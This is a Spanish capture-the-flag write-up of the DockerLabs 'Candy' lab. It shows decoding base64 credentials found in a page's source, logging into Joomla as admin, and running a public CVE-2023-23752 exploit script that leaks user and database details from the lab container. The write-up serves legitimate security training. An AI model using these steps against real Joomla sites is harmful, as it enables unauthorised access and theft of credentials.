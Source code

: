 Llegamos a la conclusión de que hay un `Joomla` desplegado, el cual tiene varios formularios de inicio de sesión, pero para ninguno de ellos tenemos credenciales para acceder:

![Desktop View](/20251027185842.webp){: width="972" height="589" .shadow}

En los analisis de `nmap` (que recupera el contenido del fichero `robots.txt`), vemos que hay un recurso llamado `un_caramelo`:

![Desktop View](/20251027185719.webp){: width="972" height="589" .shadow}

Si miramos el código fuente, encontramos unas credenciales:

![Desktop View](/20251027185647.webp){: width="972" height="589" .shadow}

Tratamos de acceder, pero nos daremos cuenta de que no son correctos tal y como los encontramos. Al tratarse de una cadena codificada en base64, debemos decodificarla:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Candy]
└─$ echo "c2**************" | base64 -d; echo
s***********
```

Teniendo la contraseña, ahora si podemos acceder como el usuario `admin` en los dos formularios:

![Desktop View](/20251027193056.webp){: width="972" height="589" .shadow}

El que nos interesa es el que permite gestionar el sitio web:

![Desktop View](/20251027193138.webp){: width="972" height="589" .shadow}

## explotación

Encontramos un recurso en [GitHub](https://github.com/0xNahim/CVE-2023-23752), el cual permite obtener información de las credenciales de las bbdd de ciertas versiones de `Joomla`:

![Desktop View](/20251027194745.webp){: width="972" height="589" .shadow}

En el panel de ayuda nos indican que lo único que debemos indicar es la URL:

```bash
┌──(venv)─(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Candy/CVE-2023-23752]
└─$ python3 exploit.py              
usage: exploit.py [-h] [-u URL] [-f]

options:
  -h, --help     show this help message and exit
  -u, --url URL  Target url, http://localhost:8080
  -f, --file     Change mode: Multiple targets
```

Haciendo esto, vemos que recuperamos datos sensibles de la base de datos del laboratorio:

```bash
┌──(venv)─(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Candy/CVE-2023-23752]
└─$ python3 exploit.py -u http://172.17.0.2          
[615] admin (admin) - realmail@dockerlabs.com - Super Users
Site info
Sitename:TLuisillo_o
Editor: tinymce
Captcha: 0
Access: 1
Debug status: False

Database info
DB type: mysqli
DB host: localhost
DB user: joomla_user
```